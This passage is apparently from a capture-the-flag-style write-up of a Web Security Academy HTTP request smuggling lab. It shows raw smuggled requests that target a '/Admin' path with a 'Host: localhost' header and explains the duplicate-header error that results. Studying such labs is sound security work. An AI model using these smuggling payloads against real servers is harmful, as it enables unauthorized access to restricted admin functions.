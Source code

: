 Here when we send the normal request we see an error

<img src="images/image1.png" alt="third" width="500">

The reason for this error is when we send the request  in the body we have another request to /admin
Now when we send then normal request the server treat it as 

```
GET /Admin HTTP/1.1
Host: localhost
POST / HTTP/2
Host: 0a5f00c303eeb9ae81d19e8100390025.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5


1=2
```

As it see 2 host header and 2 request so it print message that duplicate header not allows in. even if we add a dummy header like

```
GET /Admin HTTP/1.1
Host: localhost
Newheader:x
```

Still the problem of duplicate header not remove because our request look like

```
GET /Admin HTTP/1.1
Host: localhost
Newheader:xPOST / HTTP/2
Host: 0a5f00c303eeb9ae81d19e8100390025.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
```
